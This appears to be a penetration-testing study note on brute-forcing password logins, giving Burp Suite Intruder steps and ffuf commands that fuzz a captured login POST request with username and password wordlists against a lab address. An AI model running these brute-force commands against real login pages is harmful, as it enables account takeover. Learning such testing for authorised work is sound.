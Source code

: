 #auth #ffuf 
## What is it?

Password-based authentication generally allows to register an account and set a password, or sometimes an account will be assigned to them by an administrator. Password-based authentication tends to be suseptible to brute-force attacks, account lockouts and credential stuffing attacks.

**A simple example**
-   A vulnerable web application allows users to sign up and set a password.
-   After 10 failed login attempts, an account is locked.
-   If an attacker uses 9 common passwords against many user accounts, they will gain access to ones that chose weak or common passwords.

Broken authentication can often lead to:
-   Account takeover
-   Sensitive data exposure

---

### Burpsuite Method
- Burpsuite > Send to Intruder > Sniper, add payload marker to password, Payload settings load /usr/share/seclists/SecListsMaster/Passwords/ >Start Attack
	- Look for length changes in results

### FFUF Method
- Save `POST` request from Burpsuite to .txt
	- change password value to `FUZZ`
```
ffuf -request req.txt -request-proto http -w /usr/share/seclist/SecLists-Master/Passwords/xato-net-10-million-passwords-10000.txt -fs 1814
```
- this command sends the `POST` request, fuzzing the password field with the specified wordlist, using protocol http and filter file size for sizes other than 1814.

[Steps](https://notes.benheater.com/books/web/page/use-ffuf-to-brute-force-login)

- Request.txt file
```d
POST /login HTTP/1.1
Host: 10.10.10.10
Content-Length: 37
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Content-Type: application/json
Origin: http://10.10.10.10
Referer: http://10.10.10.10/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"username":"USERFUZZ","password":"PASSFUZZ"}
```
- #ffuf command to bruteforce logins
```d
ffuf -request request.txt -request-proto http -mode clusterbomb -w /path/to/users/file.txt:USERFUZZ -w /path/to/password/file.txt:PASSFUZZ -mc 200
```